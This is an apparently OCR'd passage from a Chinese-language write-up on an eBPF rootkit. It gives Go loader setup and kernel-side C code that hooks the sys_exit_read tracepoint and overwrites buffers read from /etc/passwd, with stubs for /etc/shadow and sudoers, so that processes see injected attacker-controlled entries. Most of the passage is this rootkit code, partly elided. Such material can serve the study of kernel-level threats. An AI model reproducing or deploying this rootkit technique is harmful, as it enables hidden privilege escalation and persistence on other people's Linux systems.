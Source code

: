   Maps: []*manager.Map{  
   {  
    Name: "events",  
   },  
  },  
 }  
  
 this.bpfManagerOptions = manager.Options{  
  ...  
  // 填充 RewriteContants 对应map  
  ConstantEditors: this.constantEditor(),  
 }  
}

**内核态使用payload**

const volatile int payload_len = 0;  
...  
const volatile char payload_shadow[MAX_PAYLOAD_LEN];  
  
SEC("tracepoint/syscalls/sys_exit_read")  
int handle_read_exit(struct trace_event_raw_sys_exit *ctx)  
{  
    // 判断是否为rootkit行为，是否需要加载payload  
    ...  
    long int read_size = ctx->ret;  
    // 判断原buff长度是否小于payload  
    if (read_size < payload_len) {  
        return 0;  
    }  
      
    // 判断文件类型，匹配追加相应payload  
    switch (pbuff_addr->file_type)  
    {  
    case FILE_TYPE_PASSWD:  
        // 覆盖payload到buf，不足部分使用原buff内容  
        {  
            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);  
            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {  
                if (i >= payload_passwd_len) {  
                    local_buff[i] = ' ';  
                }  
                else {  
                    local_buff[i] = payload_passwd[i];  
                }  
            }  
        }  
        break;  
    case FILE_TYPE_SHADOW:  
        // 覆盖 shadow文件  
        ...  
        break;  
    case FILE_TYPE_SUDOERS:  
        //覆盖sudoers  
        ...  
        break;  
    default:  
        return 0;  
        break;  
    }  
  